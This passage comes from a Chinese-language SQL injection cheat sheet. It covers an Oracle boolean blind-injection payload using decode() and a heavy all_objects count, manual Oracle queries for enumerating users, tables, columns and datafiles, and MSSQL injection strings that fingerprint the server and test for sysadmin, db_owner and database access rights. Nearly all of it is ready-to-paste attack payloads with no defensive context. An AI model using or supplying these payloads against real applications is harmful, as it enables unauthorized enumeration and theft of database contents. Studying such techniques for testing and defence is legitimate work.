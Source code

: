 - decode()函数

  ```sql
  判断第一个表名的第一个字符
  and 1=(select decode(substr((select table_name from user_tables where rownum=1),1,1),'S',(select count(*) from all_objects),1) from dual)-- 
  由于使用了select count(*) from all_objects方法，因此该过程会严重影响到数据库性能，谨慎操作
  ```

##### 手工注入：

- 常用语句：

  ```sql
  当前用户：
  select user from dual
  
  列出所有用户：
  select username from all_users order by username
  
  列出数据库：
  select distinct owner from all_tables
  
  列出表名：
  select table_name from all_tables
  select owner,table_name from all_tables
  
  列出字段名：
  select column_name from all_tab_columns where table_name='tablename'
  select column_name from all_tab_columns where table_name='tablename' and owner='ownername'
  
  定位DB文件：
  select name from V$DATAFILE
  ```

### MSSQL注入进阶技巧

##### 手工注入总结：

```mssql
判断是否是MSSQL
and exists(select * from sysobjects)

判断某表是否存在..tableName为表名
and exists(select * from tableName)

MSSQL版本
and 1=(select @@VERSION)

当前数据库名
and 1=(select db_name())

本地服务名
and 1=(select @@servername)

判断是否是系统管理员
and 1=(select IS_SRVROLEMEMBER('sysadmin'))-- 

判断是否是库权限
and 1=(select IS_MEMBER('db_owner'))-- 
and 1=(select IS_MEMBER('public'))-- 

判断是否有库读取权限
and 1=(select HAS_DBACCESS('master'))


```